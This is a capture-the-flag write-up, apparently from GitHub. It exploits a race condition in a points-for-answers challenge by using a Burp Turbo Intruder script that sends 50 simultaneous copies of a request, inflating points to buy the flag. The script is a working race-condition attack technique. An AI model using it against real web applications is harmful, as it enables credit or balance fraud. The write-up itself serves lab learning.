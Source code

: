 This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)
```
    

Don't forget to add a %s otherwise attack will not succeede. We just need it for execution of the attack
![image](https://user-images.githubusercontent.com/19681324/158211789-ecfec676-d867-4932-8e5b-de9bed94c978.png)

After successful attack we now have 530 point 
![image](https://user-images.githubusercontent.com/19681324/158211962-b38c48d5-520b-4a01-8091-e781ffef93ad.png)

we can easily buy the flag now

![image](https://user-images.githubusercontent.com/19681324/158212039-3d096017-def9-4f17-86c9-dcb49461e75b.png)

**This Link https://ctftime.org/writeup/32471 contains python script using threads for exploiting race condition **
